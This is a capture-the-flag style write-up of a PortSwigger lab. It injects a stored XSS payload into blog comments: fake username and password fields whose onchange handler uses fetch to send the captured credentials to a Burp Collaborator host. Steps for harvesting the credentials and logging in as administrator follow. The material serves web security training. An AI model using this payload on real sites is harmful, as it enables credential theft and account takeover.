

> > > Platform -> PortSwigger
> > > Target -> Lab: Exploiting cross-site scripting to capture passwords

---

**Vulnerability:** Stored XSS in blog comments
**Goal:** Exfiltrate victim's username + password via Burp Collaborator

---

### Why this works

Injected `<input>` fields with `name=username` / `name=password` become accessible as `window.username` / `window.password` (browser auto-exposes named form elements globally). When the victim bot fills the real login form, our fake password field's `onchange` fires and leaks both values via `fetch`.

### Payload

```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-COLLABORATOR-ID.oastify.com',{method:'POST',mode:'no-cors',body:username.value+':'+this.value})">

```

### Breakdown

- `name=username` → exposes `window.username`
- `name=password` + `onchange` → fires when victim's typed password loses focus
- `if(this.value.length)` → skip empty triggers
- `fetch(...)` → sends `username:password` as POST body to Collaborator
- `mode:'no-cors'` → avoids CORS blocking the request

### Steps

1. Copy your Collaborator URL from Burp → replace `YOUR-COLLABORATOR-ID.oastify.com`
2. Post payload as a comment
3. Wait, then click **Poll now** in Collaborator
4. Grab leaked `username:password` from the logged request
5. Login as administrator → lab solved 
